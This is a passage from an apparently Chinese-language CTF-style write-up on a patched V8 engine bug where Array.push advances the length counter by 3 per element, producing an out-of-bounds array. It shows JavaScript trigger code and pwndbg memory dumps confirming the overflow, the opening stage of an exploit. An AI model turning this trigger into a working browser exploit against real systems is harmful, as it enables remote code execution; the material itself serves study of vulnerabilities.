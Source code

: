 其中看到，在存储数据之前，先进行了扩容，但这个扩容的计算是根据元素的个数来算的，而patch后，原本每次push一个数据，末尾指针加1，现在加了3

```
Increment(&amp;var_length, 3, mode);
```

最后，数据都push完成后，将var_length的值作为Array的length，这就导致了数组的length大于其本身elements的大小，导致了oob。

#### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

首先测试如下代码，用gdb调试

```
var arr = [];
arr[0] = 1.1;
arr.push(1.1,2.2,3.3,4.4,5.5,6.6);
%DebugPrint(arr);
%SystemBreak();
```

可以看到arr的长度为19

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t015c7cb142f290922c.png)

为了验证是否溢出，我们用如下代码进一步测试

```
var arr = [];
arr[0] = 1.1;
arr.push(1.1,2.2,3.3,4.4,5.5,6.6);
var arr2 = [1.1,2.2];
%DebugPrint(arr);
%DebugPrint(arr2);
%SystemBreak();
```

结果如下

```
0x114d0808819d &lt;JSArray[19]&gt;
0x114d08088259 &lt;JSArray[2]&gt;

pwndbg&gt; x /20wx 0x114d0808819c
0x114d0808819c:    0x08243905    0x080426e5    0x080881b1    0x00000026
0x114d080881ac:    0x08042219    0x08042a39    0x00000022    0x9999999a
0x114d080881bc:    0x3ff19999    0x9999999a    0x3ff19999    0xfff7ffff
0x114d080881cc:    0xfff7ffff    0xfff7ffff    0xfff7ffff    0x9999999a
0x114d080881dc:    0x40019999    0xfff7ffff    0xfff7ffff    0xfff7ffff
pwndbg&gt; x /20wx 0x114d080881b8
0x114d080881b8:    0x9999999a    0x3ff19999    0x9999999a    0x3ff19999
0x114d080881c8:    0xfff7ffff    0xfff7ffff    0xfff7ffff    0xfff7ffff
0x114d080881d8:    0x9999999a    0x40019999    0xfff7ffff    0xfff7ffff
0x114d080881e8:    0xfff7ffff    0xfff7ffff    0x66666666    0x400a6666
0x114d080881f8:    0xfff7ffff    0xfff7ffff    0xfff7ffff    0xfff7ffff
pwndbg&gt; x /20wx 0x114d08088258
0x114d08088258:    0x08243905    0x080426e5    0x08088241    0x00000004
0x114d08088268:    0x00000000    0x00000000    0x00000000    0x00000000
0x114d08088278:    0x00000000    0x00000000    0x00000000    0x00000000
0x114d08088288:    0x00000000    0x00000000    0x00000000    0x00000000
0x114d08088298:    0x00000000    0x00000000    0x00000000    0x00000000
pwndbg&gt; x /20wx 0x114d08088240
0x114d08088240:    0x08042a39    0x00000004    0x9999999a    0x3ff19999
0x114d08088250:    0x9999999a    0x40019999    0x08243905    0x080426e5
0x114d08088260:    0x08088241    0x00000004    0x00000000    0x00000000
0x114d08088270:    0x00000000    0x00000000    0x00000000    0x00000000
0x114d08088280:    0x00000000    0x00000000    0x00000000    0x00000000
```